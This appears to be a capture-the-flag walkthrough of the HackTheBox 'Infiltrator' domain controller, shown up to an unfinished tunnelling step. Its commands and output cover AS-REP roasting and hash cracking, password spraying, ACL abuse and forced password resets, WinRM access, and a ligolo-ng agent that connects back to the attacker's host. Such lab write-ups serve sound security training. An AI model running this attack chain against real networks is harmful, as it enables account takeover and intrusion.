# Infiltrator
## Host file setup
```python
sudo nxc smb 10.129.232.99 --generate-hosts-file /etc/hosts 
SMB         10.129.232.99   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:None) (Null Auth:True)
```

## Enumeration
### Open ports
```python
nmap -p- --min-rate=2000 -sT -Pn dc01.infiltrator.htb -vv

Nmap scan report for dc01.infiltrator.htb (10.129.232.99)
Host is up, received user-set (0.015s latency).
rDNS record for 10.129.232.99: DC01.infiltrator.htb
Scanned at 2026-10-04 16:17:05 BST for 65s
Not shown: 65513 filtered tcp ports (no-response)
PORT      STATE SERVICE          REASON
53/tcp    open  domain           syn-ack
80/tcp    open  http             syn-ack
88/tcp    open  kerberos-sec     syn-ack
135/tcp   open  msrpc            syn-ack
139/tcp   open  netbios-ssn      syn-ack
389/tcp   open  ldap             syn-ack
445/tcp   open  microsoft-ds     syn-ack
464/tcp   open  kpasswd5         syn-ack
593/tcp   open  http-rpc-epmap   syn-ack
636/tcp   open  ldapssl          syn-ack
3268/tcp  open  globalcatLDAP    syn-ack
3269/tcp  open  globalcatLDAPssl syn-ack
3389/tcp  open  ms-wbt-server    syn-ack
5985/tcp  open  wsman            syn-ack
9389/tcp  open  adws             syn-ack
15220/tcp open  unknown          syn-ack
49667/tcp open  unknown          syn-ack
49694/tcp open  unknown          syn-ack
49695/tcp open  unknown          syn-ack
49700/tcp open  unknown          syn-ack
49726/tcp open  unknown          syn-ack
49749/tcp open  unknown          syn-ack

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 66.20 seconds
```

### Nmap
```python
nmap -p 53,80,88,135,139,389,445,464,593,636,3268,3269,3389,5985 -A --min-rate=2000 -sT -Pn dc01.infiltrator.htb
Starting Nmap 7.99 ( https://nmap.org ) at 2026-10-04 16:19 +0100
Nmap scan report for dc01.infiltrator.htb (10.129.232.99)
Host is up (0.015s latency).
rDNS record for 10.129.232.99: DC01.infiltrator.htb

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Infiltrator.htb
|_http-server-header: Microsoft-IIS/10.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-10-04 15:19:36Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: infiltrator.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.infiltrator.htb, DNS:infiltrator.htb, DNS:INFILTRATOR
| Not valid before: 2024-08-04T18:48:15
|_Not valid after:  2099-07-17T18:48:15
|_ssl-date: 2026-10-04T15:21:00+00:00; 0s from scanner time.
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: infiltrator.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-10-04T15:21:00+00:00; 0s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.infiltrator.htb, DNS:infiltrator.htb, DNS:INFILTRATOR
| Not valid before: 2024-08-04T18:48:15
|_Not valid after:  2099-07-17T18:48:15
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: infiltrator.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-10-04T15:21:00+00:00; 0s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.infiltrator.htb, DNS:infiltrator.htb, DNS:INFILTRATOR
| Not valid before: 2024-08-04T18:48:15
|_Not valid after:  2099-07-17T18:48:15
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: infiltrator.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.infiltrator.htb, DNS:infiltrator.htb, DNS:INFILTRATOR
| Not valid before: 2024-08-04T18:48:15
|_Not valid after:  2099-07-17T18:48:15
|_ssl-date: 2026-10-04T15:21:00+00:00; 0s from scanner time.
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: INFILTRATOR
|   NetBIOS_Domain_Name: INFILTRATOR
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: infiltrator.htb
|   DNS_Computer_Name: dc01.infiltrator.htb
|   DNS_Tree_Name: infiltrator.htb
|   Product_Version: 10.0.17763
|_  System_Time: 2026-10-04T15:20:20+00:00
|_ssl-date: 2026-10-04T15:21:00+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=dc01.infiltrator.htb
| Not valid before: 2026-10-03T15:14:53
|_Not valid after:  2027-04-04T15:14:53
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019|10 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2019 cpe:/o:microsoft:windows_10
Aggressive OS guesses: Microsoft Windows Server 2019 (97%), Microsoft Windows 10 1903 - 22H2 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## SMB (445)
Null auth is enabled, but cannot use it to enumerate in anyway

Guest account is also disabled

## HTTP (80)

There is not a lot of functionality on this page


Found some potential users


More potential users

```python
david anderson
olivia martinez
kevin turner
amanda walker
marcus harris
lauren clark
ethan rodriguez
```

### Valid users
```python
./username-anarchy -i ../potential-users.txt | tee ../AD-users.txt
```

Ill use username anarchy to generate some users

```python
kerbrute userenum --dc dc01.infiltrator.htb -d infiltrator.htb AD-users.txt       

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 10/04/26 - Ronnie Flathers @ropnop

2026/10/04 16:39:05 >  Using KDC(s):
2026/10/04 16:39:05 >  	dc01.infiltrator.htb:88

2026/10/04 16:39:05 >  [+] VALID USERNAME:	d.anderson@infiltrator.htb
2026/10/04 16:39:05 >  [+] VALID USERNAME:	o.martinez@infiltrator.htb
2026/10/04 16:39:05 >  [+] VALID USERNAME:	k.turner@infiltrator.htb
2026/10/04 16:39:05 >  [+] VALID USERNAME:	a.walker@infiltrator.htb
2026/10/04 16:39:05 >  [+] VALID USERNAME:	m.harris@infiltrator.htb
2026/10/04 16:39:05 >  [+] VALID USERNAME:	e.rodriguez@infiltrator.htb
2026/10/04 16:39:05 >  [+] VALID USERNAME:	l.clark@infiltrator.htb
2026/10/04 16:39:05 >  Done! Tested 105 usernames (7 valid) in 0.168 seconds
```

These users are valid

## ASREP roasting leads to user compromise

After getting some valid users ill try some ASREP roasting

```python
nxc ldap dc01.infiltrator.htb -u AD-users.txt -p '' --asreproast asrep.hash                     
LDAP        10.129.232.99   389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:infiltrator.htb) (signing:None) (channel binding:Never)

LDAP        10.129.232.99   389    DC01             $krb5asrep$23$l.clark@INFILTRATOR.HTB:192232ede506ead876ad8384319c6ce7$0429782ae1f76ac609275e9e28300033c8fb14218584e43aa6aaffbf692923853a8c02ad8872dcbdcd6c30249a6a4820fb6f183e45acd852097fd2b6bd92305d4186087eb56dadeb936598994b80cae579c1f6ba224b768eedbccba9fdf8caab2706de9700e2760d30beb13be4fecbc8114688e2b3646f6a5eb2192d4597d626cfc62b210e1031cf915194b1b52b13332ec280e601e5e3ee32b395cb68943b18d532b6d930518279b2654837c9f33668e5c6dcb50ce10d61cb5fe09dad84c95569cadd2453750ca24bf036cdf7af63bbd738fafb7bde4e85710ccc9c008363dd6cc1e380bff21d4f8473a24ce9acafaa2be3
```

I have managed to get a hash

```python
hashcat asrep.hash /usr/share/wordlists/rockyou.txt

$krb5asrep$23$l.clark@INFILTRATOR.HTB:192232ede506ead876ad8384319c6ce7$0429782ae1f76ac609275e9e28300033c8fb14218584e43aa6aaffbf692923853a8c02ad8872dcbdcd6c30249a6a4820fb6f183e45acd852097fd2b6bd92305d4186087eb56dadeb936598994b80cae579c1f6ba224b768eedbccba9fdf8caab2706de9700e2760d30beb13be4fecbc8114688e2b3646f6a5eb2192d4597d626cfc62b210e1031cf915194b1b52b13332ec280e601e5e3ee32b395cb68943b18d532b6d930518279b2654837c9f33668e5c6dcb50ce10d61cb5fe09dad84c95569cadd2453750ca24bf036cdf7af63bbd738fafb7bde4e85710ccc9c008363dd6cc1e380bff21d4f8473a24ce9acafaa2be3:WAT?watismypass!
```

The hash cracked

```python
nxc smb dc01.infiltrator.htb -u l.clark -p 'WAT?watismypass!'              
SMB         10.129.232.99   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.232.99   445    DC01             [+] infiltrator.htb\l.clark:WAT?watismypass! 
```

This user is compromised

```python
nxc smb dc01.infiltrator.htb -u l.clark -p 'WAT?watismypass!' --shares  
SMB         10.129.232.99   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.232.99   445    DC01             [+] infiltrator.htb\l.clark:WAT?watismypass! 
SMB         10.129.232.99   445    DC01             [*] Enumerated shares
SMB         10.129.232.99   445    DC01             Share           Permissions     Remark
SMB         10.129.232.99   445    DC01             -----           -----------     ------
SMB         10.129.232.99   445    DC01             ADMIN$                          Remote Admin
SMB         10.129.232.99   445    DC01             C$                              Default share
SMB         10.129.232.99   445    DC01             IPC$            READ            Remote IPC
SMB         10.129.232.99   445    DC01             NETLOGON        READ            Logon server share 
SMB         10.129.232.99   445    DC01             SYSVOL          READ            Logon server share
```

Just default shares

```python
nxc smb dc01.infiltrator.htb -u l.clark -p 'WAT?watismypass!' --rid-brute 20000 | grep '(SidTypeUser)' | cut -d '\' -f 2 | cut -d ' ' -f 1 | tee users.txt
Administrator
Guest
krbtgt
DC01$
D.anderson
L.clark
M.harris
O.martinez
A.walker
K.turner
E.rodriguez
winrm_svc
infiltrator_svc$
lan_managment
```

Ill also dump the users using `--rid-brute` since that will also get machine accounts

## Password stored in user descriptions
```python
nxc smb dc01.infiltrator.htb -u l.clark -p 'WAT?watismypass!' --users
SMB         10.129.232.99   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.232.99   445    DC01             [+] infiltrator.htb\l.clark:WAT?watismypass! 
SMB         10.129.232.99   445    DC01             -Username-                    -Last PW Set-       -BadPW- -Description-                                               
SMB         10.129.232.99   445    DC01             Administrator                 2024-08-21 19:58:28 0       Built-in account for administering the computer/domain 
SMB         10.129.232.99   445    DC01             Guest                         <never>             0       Built-in account for guest access to the computer/domain 
SMB         10.129.232.99   445    DC01             krbtgt                        2023-12-04 17:36:16 0       Key Distribution Center Service Account 
SMB         10.129.232.99   445    DC01             D.anderson                    2023-12-04 18:56:02 0        
SMB         10.129.232.99   445    DC01             L.clark                       2023-12-04 19:04:24 0        
SMB         10.129.232.99   445    DC01             M.harris                      2026-10-04 15:41:43 0        
SMB         10.129.232.99   445    DC01             O.martinez                    2024-02-25 15:41:03 0        
SMB         10.129.232.99   445    DC01             A.walker                      2023-12-05 22:06:28 0        
SMB         10.129.232.99   445    DC01             K.turner                      2024-02-25 15:40:35 0       MessengerApp@Pass! 
SMB         10.129.232.99   445    DC01             E.rodriguez                   2026-10-04 15:41:43 0        
SMB         10.129.232.99   445    DC01             winrm_svc                     2024-08-02 22:42:45 0        
SMB         10.129.232.99   445    DC01             lan_managment                 2024-08-02 22:42:46 0        
SMB         10.129.232.99   445    DC01             [*] Enumerated 12 local users: INFILTRATOR
```

Found another password 

There is no lockout policy on the domain

```python
nxc smb dc01.infiltrator.htb -u users.txt -p 'MessengerApp@Pass!' --continue-on-success
SMB         10.129.232.99   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.232.99   445    DC01             [-] infiltrator.htb\Administrator:MessengerApp@Pass! STATUS_LOGON_FAILURE 
SMB         10.129.232.99   445    DC01             [-] infiltrator.htb\Guest:MessengerApp@Pass! STATUS_LOGON_FAILURE 
SMB         10.129.232.99   445    DC01             [-] infiltrator.htb\krbtgt:MessengerApp@Pass! STATUS_LOGON_FAILURE 
SMB         10.129.232.99   445    DC01             [-] infiltrator.htb\DC01$:MessengerApp@Pass! STATUS_LOGON_FAILURE 
SMB         10.129.232.99   445    DC01             [-] infiltrator.htb\D.anderson:MessengerApp@Pass! STATUS_ACCOUNT_RESTRICTION 
SMB         10.129.232.99   445    DC01             [-] infiltrator.htb\L.clark:MessengerApp@Pass! STATUS_LOGON_FAILURE 
SMB         10.129.232.99   445    DC01             [-] infiltrator.htb\M.harris:MessengerApp@Pass! STATUS_ACCOUNT_RESTRICTION 
SMB         10.129.232.99   445    DC01             [-] infiltrator.htb\O.martinez:MessengerApp@Pass! STATUS_LOGON_FAILURE 
SMB         10.129.232.99   445    DC01             [-] infiltrator.htb\A.walker:MessengerApp@Pass! STATUS_LOGON_FAILURE 
SMB         10.129.232.99   445    DC01             [-] infiltrator.htb\K.turner:MessengerApp@Pass! STATUS_LOGON_FAILURE 
SMB         10.129.232.99   445    DC01             [-] infiltrator.htb\E.rodriguez:MessengerApp@Pass! STATUS_LOGON_FAILURE 
SMB         10.129.232.99   445    DC01             [-] infiltrator.htb\winrm_svc:MessengerApp@Pass! STATUS_LOGON_FAILURE 
SMB         10.129.232.99   445    DC01             [-] infiltrator.htb\infiltrator_svc$:MessengerApp@Pass! STATUS_LOGON_FAILURE 
SMB         10.129.232.99   445    DC01             [-] infiltrator.htb\lan_managment:MessengerApp@Pass! STATUS_LOGON_FAILURE
```

Two users are shows to have a status account restriction, `d.anderson` and `m.harris`

```python
bloodyAD --host dc01.infiltrator.htb -d infiltrator.htb -u l.clark -p 'WAT?watismypass!' get object 'm.harris'

memberOf: CN=Developers,CN=Users,DC=infiltrator,DC=htb; CN=Protected Users,CN=Users,DC=infiltrator,DC=htb; CN=Remote Management Users,CN=Builtin,DC=infiltrator,DC=htb
```

```python
bloodyAD --host dc01.infiltrator.htb -d infiltrator.htb -u l.clark -p 'WAT?watismypass!' get object 'd.anderson'

memberOf: CN=Marketing_Team,CN=Users,DC=infiltrator,DC=htb; CN=Protected Users,CN=Users,DC=infiltrator,DC=htb
```

Both are part of protected users this explains why there is a restriction

## Password spray leads to user compromise

```python
nxc smb dc01.infiltrator.htb -u users.txt -p 'WAT?watismypass!' --continue-on-success -k
SMB         dc01.infiltrator.htb 445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         dc01.infiltrator.htb 445    DC01             [-] infiltrator.htb\Administrator:WAT?watismypass! KDC_ERR_PREAUTH_FAILED 
SMB         dc01.infiltrator.htb 445    DC01             [-] infiltrator.htb\Guest:WAT?watismypass! KDC_ERR_CLIENT_REVOKED 
SMB         dc01.infiltrator.htb 445    DC01             [-] infiltrator.htb\krbtgt:WAT?watismypass! KDC_ERR_CLIENT_REVOKED 
SMB         dc01.infiltrator.htb 445    DC01             [-] infiltrator.htb\DC01$:WAT?watismypass! KDC_ERR_PREAUTH_FAILED 
SMB         dc01.infiltrator.htb 445    DC01             [+] infiltrator.htb\D.anderson:WAT?watismypass! 
SMB         dc01.infiltrator.htb 445    DC01             [+] infiltrator.htb\L.clark:WAT?watismypass! 
SMB         dc01.infiltrator.htb 445    DC01             [-] infiltrator.htb\M.harris:WAT?watismypass! KDC_ERR_PREAUTH_FAILED 
SMB         dc01.infiltrator.htb 445    DC01             [-] infiltrator.htb\O.martinez:WAT?watismypass! KDC_ERR_PREAUTH_FAILED 
SMB         dc01.infiltrator.htb 445    DC01             [-] infiltrator.htb\A.walker:WAT?watismypass! KDC_ERR_PREAUTH_FAILED 
SMB         dc01.infiltrator.htb 445    DC01             [-] infiltrator.htb\K.turner:WAT?watismypass! KDC_ERR_PREAUTH_FAILED 
SMB         dc01.infiltrator.htb 445    DC01             [-] infiltrator.htb\E.rodriguez:WAT?watismypass! KDC_ERR_PREAUTH_FAILED 
SMB         dc01.infiltrator.htb 445    DC01             [-] infiltrator.htb\winrm_svc:WAT?watismypass! KDC_ERR_PREAUTH_FAILED 
SMB         dc01.infiltrator.htb 445    DC01             [-] infiltrator.htb\infiltrator_svc$:WAT?watismypass! KDC_ERR_PREAUTH_FAILED 
SMB         dc01.infiltrator.htb 445    DC01             [-] infiltrator.htb\lan_managment:WAT?watismypass! KDC_ERR_PREAUTH_FAILED 
```

This has compromised the user `d.anderson`


This user has GenericAll on the `Marketing digital` OU


This OU contains the `e.rodriguez` user, this means i can apply an inheritance rule to the OU to get GenericAll over `e.rodriguez`

## Compromising `e.rodriguez`

```python
nxc smb dc01.infiltrator.htb -u d.anderson -p 'WAT?watismypass!' -k --generate-tgt d.anderson
SMB         dc01.infiltrator.htb 445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         dc01.infiltrator.htb 445    DC01             [+] infiltrator.htb\d.anderson:WAT?watismypass! 
SMB         dc01.infiltrator.htb 445    DC01             [+] TGT saved to: d.anderson.ccache
SMB         dc01.infiltrator.htb 445    DC01             [+] Run the following command to use the TGT: export KRB5CCNAME=d.anderson.ccache
```

First ill get a TGT for the user with privs

```python
export KRB5CCNAME=d.anderson.ccache
```

Then ill export it

```python
dacledit.py -action 'write' -rights 'FullControl' -inheritance -principal 'd.anderson' -target-dn 'OU=MARKETING DIGITAL,DC=INFILTRATOR,DC=HTB' 'infiltrator.htb/' -k -no-pass                      
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies 

[*] NB: objects with adminCount=1 will no inherit ACEs from their parent container/OU
/home/kali/.local/bin/dacledit.py:390: DeprecationWarning: codecs.open() is deprecated. Use open() instead.
  with codecs.open(self.filename, 'w', 'utf-8') as outfile:
[*] DACL backed up to dacledit-20261004-181019.bak
[*] DACL modified successfully!
```

Ill apply the inheritance rule

```python
bloodyAD --host dc01.infiltrator.htb -d infiltrator.htb -k set password 'e.rodriguez' 'Password123!'
[+] Password changed successfully!
```

Now ill change the password

```python
nxc smb dc01.infiltrator.htb -u e.rodriguez -p 'Password123!'                                
SMB         10.129.232.99   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.232.99   445    DC01             [+] infiltrator.htb\e.rodriguez:Password123!
```

This user is now compromised


This user has AddSelf to the chiefs marketing group

## Adding `e.rodriguez` to `chiefs marketing`

```python
bloodyAD --host dc01.infiltrator.htb -d infiltrator.htb -u e.rodriguez -p 'Password123!' add groupMember 'CN=CHIEFS MARKETING,CN=USERS,DC=INFILTRATOR,DC=HTB' 'e.rodriguez'
```

This added the user to the group

## Compromising `m.harris`


This user has ForceChangePassword on the `m.harris` user

```python
nxc smb dc01.infiltrator.htb -u e.rodriguez -p 'Password123!' -k --generate-tgt e.rodriguez
SMB         dc01.infiltrator.htb 445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         dc01.infiltrator.htb 445    DC01             [+] infiltrator.htb\e.rodriguez:Password123! 
SMB         dc01.infiltrator.htb 445    DC01             [+] TGT saved to: e.rodriguez.ccache
SMB         dc01.infiltrator.htb 445    DC01             [+] Run the following command to use the TGT: export KRB5CCNAME=e.rodriguez.ccache
```

Ill get a TGT for the `e.rodriguez` user

```python
export KRB5CCNAME=e.rodriguez.ccache
```

Ill export the TGT

```python
bloodyAD --host dc01.infiltrator.htb -d infiltrator.htb -k set password 'm.harris' 'Password123!'
[+] Password changed successfully!
```

Then ill change the users password

```python
nxc smb dc01.infiltrator.htb -u m.harris -p 'Password123!' -k --generate-tgt m.harris
SMB         dc01.infiltrator.htb 445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         dc01.infiltrator.htb 445    DC01             [+] infiltrator.htb\m.harris:Password123! 
SMB         dc01.infiltrator.htb 445    DC01             [+] TGT saved to: m.harris.ccache
SMB         dc01.infiltrator.htb 445    DC01             [+] Run the following command to use the TGT: export KRB5CCNAME=m.harris.ccache
```

Ill also get a TGT for this user

## Enumeration as `m.harris`



he is a member of remote management users

But also protected users so ill have to use kerberos

## Access to WINRM as `m.harris`

```python
evil-winrm-py -i dc01.infiltrator.htb -u m.harris -k --no-pass
          _ _            _                             
  _____ _(_| |_____ __ _(_)_ _  _ _ _ __ ___ _ __ _  _ 
 / -_\ V | | |___\ V  V | | ' \| '_| '  |___| '_ | || |
 \___|\_/|_|_|    \_/\_/|_|_||_|_| |_|_|_|  | .__/\_, |
                                            |_|   |__/  v1.6.0

[*] Connecting to 'dc01.infiltrator.htb:5985' as 'm.harris'
evil-winrm-py PS C:\Users\M.harris\Documents>
```

I now have access as this user!

```python
evil-winrm-py PS C:\Program Files> dir


    Directory: C:\Program Files


Mode                LastWriteTime         Length Name                                                                   
----                -------------         ------ ----                                                                   
d-----        12/4/2023   9:22 AM                Common Files                                                           
d-----        8/21/2024   1:50 PM                Hyper-V                                                                
d-----        2/19/2024   3:52 AM                internet explorer                                                      
d-----        2/23/2024   5:06 AM                Output Messenger                                                       
d-----        10/4/2026   8:18 AM                Output Messenger Server                                                
d-----       12/12/2023  10:04 AM                PackageManagement                                                      
d-----        2/19/2024   4:16 AM                Update Services                                                        
d-----        12/4/2023   9:23 AM                VMware                                                                 
d-r---        11/5/2022  12:03 PM                Windows Defender                                                       
d-----        8/21/2024   1:50 PM                Windows Defender Advanced Threat Protection                            
d-----        11/5/2022  12:03 PM                Windows Mail                                                           
d-----        8/21/2024   1:50 PM                Windows Media Player                                                   
d-----        9/15/2018  12:19 AM                Windows Multimedia Platform                                            
d-----        9/15/2018  12:28 AM                windows nt                                                             
d-----        11/5/2022  12:03 PM                Windows Photo Viewer                                                   
d-----        9/15/2018  12:19 AM                Windows Portable Devices                                               
d-----        9/15/2018  12:19 AM                Windows Security                                                       
d-----       12/12/2023  10:04 AM                WindowsPowerShell                                                      


evil-winrm-py PS C:\Program Files>
```

There is an output messenger

There is some interesting files in here

```python
evil-winrm-py PS C:\Program Files\Output Messenger> netstat -ano | findstr LISTEN
  TCP    0.0.0.0:80             0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:88             0.0.0.0:0              LISTENING       640
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       900
  TCP    0.0.0.0:389            0.0.0.0:0              LISTENING       640
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:464            0.0.0.0:0              LISTENING       640
  TCP    0.0.0.0:593            0.0.0.0:0              LISTENING       900
  TCP    0.0.0.0:636            0.0.0.0:0              LISTENING       640
  TCP    0.0.0.0:3268           0.0.0.0:0              LISTENING       640
  TCP    0.0.0.0:3269           0.0.0.0:0              LISTENING       640
  TCP    0.0.0.0:3389           0.0.0.0:0              LISTENING       8
  TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:9389           0.0.0.0:0              LISTENING       3228
  TCP    0.0.0.0:14118          0.0.0.0:0              LISTENING       6140
  TCP    0.0.0.0:14119          0.0.0.0:0              LISTENING       6140
  TCP    0.0.0.0:14121          0.0.0.0:0              LISTENING       6140
  TCP    0.0.0.0:14122          0.0.0.0:0              LISTENING       6140
  TCP    0.0.0.0:14123          0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:14125          0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:14126          0.0.0.0:0              LISTENING       6724
  TCP    0.0.0.0:14127          0.0.0.0:0              LISTENING       6140
  TCP    0.0.0.0:14128          0.0.0.0:0              LISTENING       6140
  TCP    0.0.0.0:14130          0.0.0.0:0              LISTENING       6140
  TCP    0.0.0.0:14406          0.0.0.0:0              LISTENING       7644
  TCP    0.0.0.0:47001          0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING       500
  TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING       1200
  TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING       1768
  TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING       640
  TCP    0.0.0.0:49669          0.0.0.0:0              LISTENING       2268
  TCP    0.0.0.0:49694          0.0.0.0:0              LISTENING       640
  TCP    0.0.0.0:49695          0.0.0.0:0              LISTENING       640
  TCP    0.0.0.0:49700          0.0.0.0:0              LISTENING       640
  TCP    0.0.0.0:49715          0.0.0.0:0              LISTENING       620
  TCP    0.0.0.0:49731          0.0.0.0:0              LISTENING       3308
  TCP    0.0.0.0:49754          0.0.0.0:0              LISTENING       3212
  TCP    0.0.0.0:49874          0.0.0.0:0              LISTENING       3284
```

There is some interesting ports open internally in the 14000 range

Im going to use ligolo to access these internal services from my machine

## Setting up ligolo-ng to access internal services

Ill first grab the agent and the proxy from the github releases page

```python
evil-winrm-py PS C:\> mkdir Temp


    Directory: C:\


Mode                LastWriteTime         Length Name                                                                   
----                -------------         ------ ----                                                                   
d-----        10/5/2026   9:17 AM                Temp                                                                   


evil-winrm-py PS C:\> cd Temp
evil-winrm-py PS C:\Temp> upload ligolo/agent.exe .
Uploading /home/kali/htb/Infiltrator/ligolo/agent.exe: 7.06MB [00:14, 520kB/s]                               
[+] File uploaded successfully as: C:\Temp\agent.exe
evil-winrm-py PS C:\Temp> dir


    Directory: C:\Temp


Mode                LastWriteTime         Length Name                                                                   
----                -------------         ------ ----                                                                   
-a----        10/5/2026   9:17 AM        7374848 agent.exe                                                              


evil-winrm-py PS C:\Temp>
```

Ill upload the agent to the target

```python
sudo ./proxy -selfcert 
[sudo] password for kali: 
INFO[0000] Loading configuration file ligolo-ng.yaml    
WARN[0000] daemon configuration file not found. Creating a new one... 
? Enable Ligolo-ng WebUI? No
WARN[0001] Using default selfcert domain 'ligolo', beware of CTI, SOC and IoC! 
ERRO[0001] Certificate cache error: acme/autocert: certificate cache miss, returning a new certificate 
INFO[0001] Listening on 0.0.0.0:11601                   
    __    _             __                       
   / /   (_)___ _____  / /___        ____  ____ _
  / /   / / __ `/ __ \/ / __ \______/ __ \/ __ `/
 / /___/ / /_/ / /_/ / / /_/ /_____/ / / / /_/ / 
/_____/_/\__, /\____/_/\____/     /_/ /_/\__, /  
        /____/                          /____/   

  Made in France ♥            by @Nicocha30!
  Version: 0.9.2

ligolo-ng »
```

Ill then start the proxy on my machine

```python
evil-winrm-py PS C:\Temp> .\agent.exe -connect 10.10.14.61:11601 --retry --ignore-cert
```

Then on the target ill send the connection back to me

```python
ligolo-ng » INFO[0008] Agent joined.                                 id=a2dead8cd5a9 name="INFILTRATOR\\M.harris@dc01" remote="10.129.232.99:61019"
ligolo-ng » 
ligolo-ng » 
ligolo-ng » session
? Specify a session : 1 - INFILTRATOR\M.harris@dc01 - 10.129.232.99:61019 - a2dead8cd5a9
[Agent : INFILTRATOR\M.harris@dc01] » 
[Agent : INFILTRATOR\M.harris@dc01] » 
[Agent : INFILTRATOR\M.harris@dc01] » 
[Agent : INFILTRATOR\M.harris@dc01] » ifcreate --name ligolo
INFO[0068] Creating a new ligolo interface...           
INFO[0068] Interface created!                           
[Agent : INFILTRATOR\M.harris@dc01] » route_add --name ligolo --route 240.0.0.1/32
INFO[0079] Route created.                               
[Agent : INFILTRATOR\M.harris@dc01] » tunnel_start 
INFO[0089] Starting tunnel to INFILTRATOR\M.harris@dc01 (a2dead8cd5a9) 
[Agent : INFILTRATOR\M.harris@dc01] »  
```

Then on my proxy ill select the new session, add a new interface and add the routing info and the start the tunnel

